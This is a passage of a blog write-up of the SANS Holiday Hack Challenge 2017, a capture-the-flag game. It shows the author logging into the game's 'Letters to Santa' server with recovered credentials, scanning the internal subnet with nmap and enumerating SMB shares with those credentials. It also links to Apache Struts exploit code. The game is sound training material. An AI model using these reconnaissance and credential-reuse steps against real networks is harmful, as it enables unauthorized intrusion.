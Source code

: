 I then confirmed the credentials by `ssh`ing onto the server from my kali system

```bash
# root at nathan-mbp-kali in ~ [17:53:46]
→ ssh alabaster_snowball@l2s.northpolechristmastown.com
alabaster_snowball@l2s.northpolechristmastown.com's password: stream_unhappy_buy_loss

alabaster_snowball@l2s:/tmp/asnow.i4LL0EEXNF2uU9gZtYX2HZ3q$
```

**Username:** alabaster_snowball

**Password:** stream_unhappy_buy_loss

**References:**

[Why You Need the Skills to Tinker with Publicly Released Exploit Code](https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code)

[Better Exploit Code For CVE 2017 9805 apache struts](https://github.com/chrisjd20/cve-2017-9805.py)

### SMB File Server

**Task:** The North Pole engineering team uses a Windows SMB server for sharing documentation and correspondence. Using your access to the Letters to Santa server, identify and enumerate the SMB file-sharing server. What is the file server share name?

With access to Alabaster's account now safely in my mitts, I began performing some reconnaissance on the neighbouring systems to see if I can get any information out of them. I was happy to see that `nmap` was an available command on the system and ran the following command to extract the various systems on the internal network

```bash
alabaster_snowball@l2s:/tmp/asnow.i4LL0EEXNF2uU9gZtYX2HZ3q$ nmap -Pn 10.142.0.0/24
```

Below is a diagram overview I did up for the systems captured by this scan.

<img class="img-responsive image-box-shadow" src="/img/blog/2017/12/hhc2017-challenge02-recon.jpg" />

It was interesting to note that `hhc17-smb-server.c.holidayhack2017.internal (10.142.0.7)` required the deep `-Pn` nmap scan, as it wasn't responding to any quick scan techniques.

Now that I knew the systems I could exploit, I looked back at what the challenge was asking for. I needed to connect to the SMB server (which I'd just found on `10.142.0.7`) and extract the contents of a mapped share through Enumeration methods.

I used the nmap script `smb-enum-shares` to see what I could find out about the system in question.

```bash
alabaster_snowball@l2s:/tmp/asnow.i4LL0EEXNF2uU9gZtYX2HZ3q$ nmap -T4 -v --script smb-enum-shares --script-args smbuser=alabaster_snowball,smbpass=stream_unhappy_buy_loss -p445 10.142.0.7

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-09 10:26 UTC

NSE: Loaded 1 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 10:26
Completed NSE at 10:26, 0.00s elapsed
Initiating Ping Scan at 10:26
Scanning 10.142.0.7 [2 ports]
Completed Ping Scan at 10:26, 2.00s elapsed (1 total hosts)
Nmap scan report for 10.142.0.7 [host down]
NSE: Script Post-scanning.
Initiating NSE at 10:26
Completed NSE at 10:26, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 2.27 seconds
```